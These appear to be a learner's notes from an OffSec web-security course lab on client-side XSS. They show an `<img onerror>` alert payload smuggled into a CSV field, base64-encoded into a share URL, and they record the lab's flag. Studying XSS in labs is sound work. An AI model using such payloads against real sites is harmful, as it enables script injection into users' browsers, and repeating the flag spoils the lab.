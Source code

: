 payload to use `<img src='x' onerror='alert(1)'>`

![[Pasted image 20240729215557.png]]

Excellent! We were able to exploit a client XSS! There are many ways to exploit XSS and the _onerror_ attribute on an image is just one way. We can also use _onfocus_, _onclick_, _onload_, and many others.

(Mozilla, 2021), [https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML) [↩︎](https://portal.offsec.com/courses/web-200-28380/learning/cross-site-scripting-introduction-and-discovery-30964/cross-site-scripting-discovery-31284/reflected-client-xss-30996#fnref-local_id_196-1)

##### Labs
**Unlike server XSS, we cannot discover client XSS by reviewing the requests and response. Instead, we need to have a browser render the page fully to discover if the payload worked.**

- [OffSec](https://portal.offsec.com/courses/osa-web-200-43711/learning/videos/week-3-cross-site-scripting-exploitation-and-case-study-46716/live-session-46717/live-session-46715) @ 35 minutes
![[Pasted image 20240731120640.png]]

Inserted `<h1>Testing<h1>` to test the field - it is being translated
![[Pasted image 20240729220215.png]]
the field doesn't matter
![[Pasted image 20240731120750.png]]
When you hit share it spits out a csv base64 encoded string
![[Pasted image 20240731121056.png]]
Translated it is the payload is the same.
![[Pasted image 20240731121005.png]]
utilizing the innerHTML method of bypassing to execute a script `<img src='x' onerror='alert(1)'>`
![[Pasted image 20240731121500.png]]
due to `Client side XSS` we have to follow this **Unlike server XSS, we cannot discover client XSS by reviewing the requests and response. Instead, we need to have a browser render the page fully to discover if the payload worked.**

Before `base64` encoding
```html
#,User,active
<img src='x' onerror='alert(1)'>,Samantha,1
```
After `base64` encoded from clicking `Share`
```
list.com/?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0neCcgb25lcnJvcj0nYWxlcnQoMSknPixTYW1hbnRoYSwxCg%3D%3D`
```
Input the new `shared URL` into the search bar - hit enter - then render, this will generate the flag
`OS{AKADOMXSS}`
![[Pasted image 20240731130637.png]]
![[Pasted image 20240731130751.png]]

